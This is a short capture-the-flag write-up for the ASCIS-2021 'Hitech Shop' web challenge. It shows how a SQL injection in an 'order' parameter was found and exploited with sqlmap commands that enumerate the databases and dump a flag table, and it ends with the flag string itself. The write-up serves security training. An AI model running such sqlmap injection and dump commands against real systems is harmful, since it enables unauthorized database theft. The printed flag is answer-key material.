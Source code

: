 # ASCIS-2021 Warm-up - 100pts
* Category: Web 
* Name: Hitech Shop
* Level: None
* Description: None

## Solution
* Overview the challenge provided us a search box i think it `Sql Injection`
![Main function](./challenge.PNG) 
*  I try `double quote` and this is server response 
![Main function](./sqli.PNG)
* Run this command in sqlmap `sqlmap -u http://125.235.240.166:20105/index?order=price --time-sec=200 --user-agent=* --dbs --level 5 `
* I found two databases, but i only attention `vannd` 
![Main function](./sqlmap0.PNG)
* Then i usage command `sqlmap -u http://125.235.240.166:20105/index?order=price --tables -D vannd` for scan `vannd` table 
* Finally i found a table contain flag =))))
![Main function](./sqlmap1.PNG)
* Later i scan `flag` table usage this command `sqlmap -u http://125.235.240.166:20105/index?order=price --columns -D vannd -T flag --dump`
![Main function](./sqlmap2.PNG)
* FLAG `ASCIS{SQL_1nJecTi0n_Ba5e_0N_OrdeR_bY}`
